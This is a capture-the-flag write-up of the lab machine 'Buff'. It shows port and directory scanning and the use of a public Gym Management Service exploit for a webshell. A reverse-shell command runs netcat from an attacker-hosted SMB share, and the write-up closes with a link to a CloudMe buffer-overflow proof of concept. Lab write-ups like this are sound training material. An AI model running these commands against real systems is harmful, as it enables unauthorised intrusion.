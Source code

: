 ![image](https://user-images.githubusercontent.com/105310322/196471216-474e621b-00c3-4a90-8d50-55ead69fd885.png)


### Tools: Feroxbuster, exploit.db

### Vulnerabilities: Gym Management Service, Buffer Overflow: CloudMe.exe

Nmap shows 1 port open on port 8080 which is a webpage we can visit.

```
└─$ nmap -A -p- -T4 -Pn 10.129.2.18
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-17 15:56 CDT
Nmap scan report for Buff.htb (10.129.2.18)
Host is up (0.14s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 505.48 seconds
```
A quick feroxbuster shows that their is an upload page and a logout page. Which means there is somewhere to login too.

```console
└─$ feroxbuster -u http://Buff.htb:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php,html,txt,git,pdf -q
301      GET        9l       30w      337c http://buff.htb:8080/include => http://buff.htb:8080/include/
301      GET        9l       30w      333c http://buff.htb:8080/img => http://buff.htb:8080/img/
200      GET      133l      308w     4969c http://buff.htb:8080/
302      GET        0l        0w        0c http://buff.htb:8080/include/logout.php => ../index.php
403      GET       42l       97w        0c http://buff.htb:8080/.html
200      GET        4l       20w      137c http://buff.htb:8080/register.php
301      GET        9l       30w      336c http://buff.htb:8080/upload => http://buff.htb:8080/upload/
200      GET      118l      265w     4169c http://buff.htb:8080/contact.php
200      GET        2l       12w      107c http://buff.htb:8080/upload.php
200      GET        2l       18w      143c http://buff.htb:8080/home.php
200      GET      141l      433w     5337c http://buff.htb:8080/about.php
403      GET       42l       97w        0c http://buff.htb:8080/webalizer
301      GET        9l       30w      337c http://buff.htb:8080/profile => http://buff.htb:8080/profile/
200      GET      133l      308w     4969c http://buff.htb:8080/index.php
403      GET       45l      113w        0c http://buff.htb:8080/phpmyadmin
301      GET        9l       30w      344c http://buff.htb:8080/profile/upload => http://buff.htb:8080/profile/upload/
200      GET        0l        0w        0c http://buff.htb:8080/include/functions.php
200      GET      121l      278w     4282c http://buff.htb:8080/edit.php
200      GET        2l       14w      132c http://buff.htb:8080/profile/index.php
200      GET      113l      268w     4252c http://buff.htb:8080/feedback.php
200      GET      168l      486w     7791c http://buff.htb:8080/packages.php
```


After checking out the website just a bit we can see that it is running Gym Management Service 1.0. A quick google search gives us an exploit we can run.

https://www.exploit-db.com/exploits/48506

After running the exploit we quickly gain access to the shaun user and nab the first flag.

```console
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```
```console
C:\xampp\htdocs\gym\upload> type c:\users\shaun\Desktop\user.txt
�PNG
�
306d****************************
********************************
```

Since this shell sucks I went back and created a reverse shell.

Set up your smbshare.

```console
└─$ sudo impacket-smbserver rogue . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Then I ran the exploit again and executed my reverse shell without copying any files.

Note: This is a pretty cool trick I learned and makes things a little faster and easier if you are running into issues with getting files on the victim.

```console
└─$ python2.7 48506.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> \\10.10.16.16\rogue\nc.exe -e cmd.exe 10.10.16.16 1234
```

By checking through Shaun's files we see an interesting binary.

```console
PS C:\Users\shaun\Downloads> ls
ls


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe  
```


Again I am going to run winpeas without transferring it to the victim.

On host

```console
└─$ sudo impacket-smbserver rogue . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
```

On victim

```console
PS C:\users\shaun\Downloads> \\10.10.16.16\rogue\winPEASx64.exe
```
Linpeas shows the running processes and also tells us that the CloudMe service is being ran on localhost port 8888

```console
����������͹ Current TCP Listening Ports
� Check for services restricted from the outside 
  Enumerating IPv4 connections
                                                                                                                               
  Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

  TCP        0.0.0.0               135           0.0.0.0               0               Listening         952             svchost
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               5040          0.0.0.0               0               Listening         5816            svchost
  TCP        0.0.0.0               7680          0.0.0.0               0               Listening         1072            svchost
  TCP        0.0.0.0               8080          0.0.0.0               0               Listening         8596            C:\xampp\apache\bin\httpd.exe
  TCP        0.0.0.0               49664         0.0.0.0               0               Listening         516             wininit
  TCP        0.0.0.0               49665         0.0.0.0               0               Listening         1044            svchost
  TCP        0.0.0.0               49666         0.0.0.0               0               Listening         1580            svchost
  TCP        0.0.0.0               49667         0.0.0.0               0               Listening         2252            spoolsv
  TCP        0.0.0.0               49668         0.0.0.0               0               Listening         668             services
  TCP        0.0.0.0               49669         0.0.0.0               0               Listening         688             lsass
  TCP        10.129.2.18           139           0.0.0.0               0               Listening         4               System
  TCP        10.129.2.18           8080          10.10.16.16           42504           Close Wait        8596            C:\xampp\apache\bin\httpd.exe
  TCP        10.129.2.18           8080          10.10.16.16           55280           Established       8596            C:\xampp\apache\bin\httpd.exe
  TCP        10.129.2.18           49847         10.10.16.16           445             Established       4               System
  TCP        10.129.2.18           49848         10.10.16.16           1235            Established       6832            \\10.10.16.16\rogue\nc64.exe
  TCP        127.0.0.1             3306          0.0.0.0               0               Listening         8628            C:\xampp\mysql\bin\mysqld.exe
  TCP        127.0.0.1             8888          0.0.0.0               0               Listening         4280            CloudMe
```
This PoC should do the job pretty quickly.

https://www.exploit-db.com/exploits/48389
